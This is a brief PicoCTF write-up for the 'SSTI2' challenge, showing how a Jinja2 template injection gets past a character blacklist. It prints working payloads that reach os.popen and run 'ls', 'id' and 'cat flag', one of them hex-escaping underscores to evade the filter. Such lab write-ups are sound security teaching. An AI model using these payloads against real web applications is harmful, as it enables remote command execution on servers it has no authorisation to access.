



# SSTI2 (PicoCTF)

`https://play.picoctf.org/practice/challenge/488`

```
Author: Venax
Description
I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :) I heard templating is a cool and modular way to build web apps! Check out my website here!
```

Same template engine as SSTI1 which was using jinja2 (flask/django). If we try to use our previous payload, `{{ ().__class__.__base__.__subclasses__()[356]('ls',shell=True,stdout=-1).communicate()[0].strip()}}`, this would appear:



So we are now under the assumption that this webserver has some blacklists, unlike SSTI1. After some research on jinja2 SSTI, I found this website: https://onsecurity.io/article/server-side-template-injection-with-jinja2/

There's this payload that bypasses some blacklisted chars, and it works:

```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```



Final payload:

```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}
```

